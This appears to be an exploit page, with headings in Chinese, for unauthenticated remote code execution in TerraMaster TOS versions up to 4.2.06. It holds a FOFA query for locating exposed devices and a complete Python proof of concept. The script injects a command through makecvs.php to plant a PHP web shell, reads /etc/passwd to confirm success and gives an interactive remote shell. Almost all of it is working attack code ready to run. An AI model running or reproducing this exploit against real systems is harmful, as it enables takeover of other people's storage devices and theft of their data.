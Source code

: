 漏洞影響
--------

TerraMaster TOS \< 4.2.06

FOFA
----

    "TerraMaster" && header="TOS"

POC
---

    # Exploit Title: TerraMaster TOS 4.2.06 - RCE (Unauthenticated)
    # Date: 12/12/2020
    # Exploit Author: IHTeam
    # Full Write-up: https://www.ihteam.net/advisory/terramaster-tos-multiple-vulnerabilities/
    # Vendor Homepage: https://www.terra-master.com/
    # Version: <= 4.2.06
    # Tested on: 4.1.30, 4.2.06

    #!/usr/bin/env python3
    import argparse
    import requests
    import time
    import sys
    import urllib.parse
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    parser = argparse.ArgumentParser(description="TerraMaster TOS <= 4.2.06 Unauth RCE")
    parser.add_argument('--url', action='store', dest='url', required=True, help="Full URL and port e.g.: http://192.168.1.111:8081/")
    args = parser.parse_args()

    url = args.url
    headers = {'User-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.121 Safari/537.36'}
    epoch_time = int(time.time())
    shell_filename = "debug"+str(epoch_time)+".php"

    def check_endpoint(url, headers):
        response = requests.get(url+'/version', headers=headers, verify=False)
        if response.status_code == 200:
            print("[+] TerraMaster TOS version: ", str(response.content))
        else:
            print("\n[-] TerraMaster TOS response code: ", response.status_code)
            sys.exit()

    def upload_shell(url, headers, shell_filename):
        payload = "http|echo \"<?php echo(passthru(\\$_GET['cmd']));?>\" >> /usr/www/"+shell_filename+" && chmod +x /usr/www/"+shell_filename+"||"
        payload = urllib.parse.quote(payload, safe='')
        print("[/] Uploading shell...")
        response = requests.get(url+'/include/makecvs.php?Event='+payload, headers=headers, verify=False)
        time.sleep(1)
        response = requests.get(url+'/'+shell_filename+'?cmd=cat /etc/passwd', headers=headers, verify=False)
        if ('root:' in str(response.content, 'utf-8')):
            print("[+] Upload succeeded")
        else:
            print("\n[-] Error uploading shell: ", response.content)
            sys.exit()

    def interactive_shell(url, headers, shell_filename, cmd):
        response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(cmd, safe=''), headers=headers, verify=False)
        print(str(response.text)+"\n")


    def delete_shell(url, headers, shell_filename):
        delcmd = "rm /usr/www/"+shell_filename
        response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(delcmd, safe=''), headers=headers, verify=False)
        print("\n[+] Shell deleted")

    upload_shell(url, headers, shell_filename)
    try:
        while True:
            cmd = input("# ")
            interactive_shell(url, headers, shell_filename, cmd)
    except:
        delete_shell(url, headers, shell_filename)